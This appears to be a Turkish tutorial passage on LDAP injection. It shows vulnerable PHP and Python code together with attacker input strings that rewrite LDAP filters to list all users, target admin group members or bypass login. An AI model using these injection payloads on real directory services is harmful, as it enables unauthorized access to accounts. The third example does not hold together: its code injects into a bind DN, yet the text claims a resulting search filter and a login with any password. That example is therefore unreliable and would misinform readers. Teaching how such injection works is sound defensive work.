 Saldırgan, `username` alanına aşağıdaki gibi bir giriş yaparak sorguyu manipüle edebilir:

```
*)(|(uid=*))
```

Bu giriş, LDAP sorgusunu şu şekilde değiştirir:

```
(&(objectClass=user)(uid=*)(|(uid=*)))
```

Bu sorgu, dizindeki tüm kullanıcıları döndürebilir.

### Örnek 2: Gelişmiş LDAP Sorgusu

Bir uygulama, LDAP kullanarak kullanıcıya ait bilgileri getiriyor olabilir:

```php
$filter = "(&(objectClass=person)(cn=" . $input . "))";
$search = ldap_search($ds, "dc=example,dc=com", $filter);
```

Saldırgan, `cn` alanına şu şekilde bir giriş yapabilir:

```
John Doe)(|(memberOf=cn=admins,dc=example,dc=com))
```

Bu, LDAP filtresini şu şekilde değiştirir:

```
(&(objectClass=person)(cn=John Doe)(|(memberOf=cn=admins,dc=example,dc=com)))
```

Bu, saldırganın sadece belirli bir kullanıcıyı değil, aynı zamanda admin grubunun bir üyesini de hedeflemesine olanak tanır.

### Örnek 3: Kimlik Doğrulama Atlatma

Bir giriş sistemi, kullanıcıdan alınan bilgileri LDAP sorgusuyla doğruluyor olabilir:

```python
import ldap

ldap_connection = ldap.initialize('ldap://example.com')
ldap_connection.simple_bind_s(f"uid={username},ou=users,dc=example,dc=com", password)
```

Saldırgan, `username` alanına şu şekilde bir girdi sağlayabilir:

```
admin)(|(uid=*))
```

Bu, LDAP sorgusunu şu şekilde manipüle eder:

```
(&(uid=admin)(|(uid=*)))
```

Bu saldırı, saldırganın herhangi bir parola ile admin kullanıcısı olarak giriş yapmasına olanak tanır.

---
